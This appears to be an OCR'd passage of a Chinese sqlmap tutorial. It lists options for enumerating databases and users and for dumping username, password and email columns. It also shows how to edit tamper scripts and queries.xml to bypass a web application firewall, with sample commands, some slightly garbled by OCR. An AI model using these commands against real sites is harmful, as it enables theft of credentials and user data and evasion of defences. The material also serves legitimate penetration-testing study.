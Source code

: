 1.列数据库信息：–dbs

2.web当前使用的数据库–current-db

3.web数据库使用账户–current-user

4.列出sqlserver所有用户 –users

5.数据库账户与密码 –passwords

6.指定库名列出所有表  -D database –tables

-D：指定数据库名称

7.指定库名表名列出所有字段 -D antian365-T admin –columns

-T：指定要列出字段的表

8.指定库名表名字段dump出指定字段

-D secbang_com -T admin -C id,password ,username –dump

-D antian365 -T userb -C”email,Username,userpassword” –dump

 可加双引号，也可不加双引号。

9.导出多少条数据

-D tourdata -T userb -C”email,Username,userpassword” –start 1 –stop 10 –dump 

参数：

–start：指定开始的行

–stop：指定结束的行

此条命令的含义为：导出数据库tourdata中的表userb中的字段(email,Username,userpassword)中的第1到第10行的数据内容。

## 1.5 SQLMAP实用技巧

### 1. mysql的注释方法进行绕过WAF进行SQL注入

（1）修改C:\Python27\sqlmap\tamper\halfversionedmorekeywords.py

return match.group().replace(word,”/*!0%s” % word) 为：

return match.group().replace(word,”/*!50000%s*/” % word)

（2）修改C:\Python27\sqlmap\xml\queries.xml

<cast query=”CAST(%s ASCHAR)”/>为：

<castquery=”convert(%s,CHAR)”/>

（3）使用sqlmap进行注入测试

sqlmap.py -u”http://**.com/detail.php? id=16″ –tamper “halfversionedmorekeywords.py”

其它绕过waf脚本方法：

sqlmap.py-u “http://192.168.136.131/sqlmap/mysql/get_int.php?id=1” –tampertamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3
